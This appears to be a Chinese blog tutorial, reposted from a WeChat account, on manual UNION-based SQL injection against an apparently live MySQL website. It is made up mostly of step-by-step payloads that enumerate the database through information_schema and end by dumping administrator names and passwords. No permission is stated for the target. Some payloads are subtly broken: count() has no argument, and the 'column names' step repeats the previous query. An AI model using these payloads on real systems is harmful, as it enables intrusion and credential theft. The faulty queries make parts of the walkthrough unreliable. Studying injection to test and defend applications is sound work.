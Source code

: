 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650520620&idx=3&sn=6596c0277c6787f36e027746a0187762&chksm=83bad9c8b4cd50de0e55f6785b5e875163a37c1eceefda30cca2289d681666c5a2cb10717ad0&mpshare=1&scene=1&srcid=0819YDa2g9nkf9aprkgoqE9U&sharer_sharetime=1629351805247&sharer_shareid=7fece245937ac96f04f0fb8e1311fff1#rd)

> **文章来源：** **火线 Zone**

前言

已经检测出该网站有 sql 注入问题，试着手工注入网站，顺便再复习一下。

**01**

**正文**

1. 先通过引号 判断该网站为数字型，payload 直接拼接，无需引号闭合，当网站后直接构造拼接 and 0# 网站文章列表内容受到影响显示空白，此为回显类型注入

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywoXeO4U0UZEHsKUFA9P1VTRw2dVgIgUJlOQORtO0icFzI0w983NXzofg/640?wx_fmt=png)

```
payload：and 0#
```

2. 进行字段数的猜解，确定回显位

字段数猜解通过 payload：ORDER BY X # 对 X 字段进行回显字段值猜解，此网站 X=6 时，网站显示正常则确定回显字段数为 6

构造 payload:UNION SELECT 1,2,3,4,5,6# 确定回显位为 2,6 选择其一即可

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7Uywricpm4ooJMoOO7aDXAC315pjyIy3WicnYwk3quzwwic3Mjy3SmocUPImQ/640?wx_fmt=png)

```
确定回显位:payload:UNION SELECT 1,2,3,4,5,6#
```

3. 进网站进行信息收集 payload:UNION SELECT 1,database(),3,4,5,6# 对第二位字段进行函数替换可收集网站数据库相关信息如：version() 数据库版本信息 @@basedirmysql 安装路径等

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywnYoJaXHcpy1b6C5xhzF6nw42rLwqnwdPgGCrlu8xzRLiclMdFJq7MicA/640?wx_fmt=png)

4. 获取表数量，通过上一步得到 mysql 数据库版本大于 5.1，可以通过 MySQL 的 information_schema 数据库进行数据获取

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7Uyw4oMSvoqtGhLUNa1YoryHWiapfmghzKpKibd4DictPmmhd5VwkRQbqSUrQ/640?wx_fmt=png)

```
payload:UNION SELECT 1,count(),3,4,5,6 FROM information_schema.tables WHERE table_schema=database() #
```

5. 获取表名

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywgawVz7k4bZ1nu7bhhTZwb6IYWLNeClvSicKTYW3WkRa3TNmILFKgN6A/640?wx_fmt=png)

```
payload:UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5,6 FROM information_schema.tables WHERE table_schema=database() #
```

6. 获取数据库表字段数

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywlQ1leIRxBSPaicvmfttqNqcOhewBBCSY8uZEKiaC0g2dicmfwCGxNUUbA/640?wx_fmt=png)

```
payload:UNION SELECT 1,count(),3,4,5,6 FROM information_schema.columns WHERE table_schema=database() and table_name='administrators' #
```

7. 获取数据库表字段名

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywFD4QnIwddWy2fZjPNyneBcaR5R9lszZAiaichibaZibmbvW5hAw4Dx45NA/640?wx_fmt=png)

```
payload:UNION SELECT 1,count(*),3,4,5,6 FROM information_schema.columns WHERE table_schema=database() and table_name='administrators' #
```

8. 获取表数据

![图片](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQhp4d22GKH7pUiadnLO7UywEW55MbBQJ8jonf0hWS2LvmzSI0qibZ04XbpVzxDicjk6QKFQUpJXibtSg/640?wx_fmt=png)

```
payload:UNION SELECT 1,group_concat(concat(id,name,password)),3,4,5,6 FROM administrators LIMIT 0,1 #
```

说明

以 mysql 数据库，数字回显类型进行 sql 手工注入流程，仅供参考

侵权请私聊公众号删文